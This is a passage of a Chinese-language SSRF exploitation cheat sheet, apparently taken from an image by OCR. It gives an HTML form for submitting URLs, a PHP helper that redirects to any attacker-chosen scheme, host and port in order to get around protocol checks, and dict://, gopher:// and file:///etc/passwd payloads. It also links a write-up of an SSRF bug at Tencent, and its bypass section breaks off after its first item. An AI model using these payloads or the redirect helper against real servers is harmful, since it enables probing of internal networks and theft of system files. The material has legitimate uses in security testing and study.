 構造一個前端頁面

```html
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```

請求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳轉繞過 HTTP 協議的限制。

輔助腳本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

[騰訊某處 SSRF 漏洞（非常好的利用點）附利用腳本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)

## 協議利用

-   Dict 協議

    ```
    dict://fuzz.wuyun.org:8080/helo:dict
    ```

-   Gopher 協議

    ```
    gopher://fuzz.wuyun.org:8080/gopher
    ```

-   File 協議

    ```
    file:///etc/passwd
    ```
    
## 繞過姿勢
1.  更改IP地址寫法
    例如`192.168.0.1`
    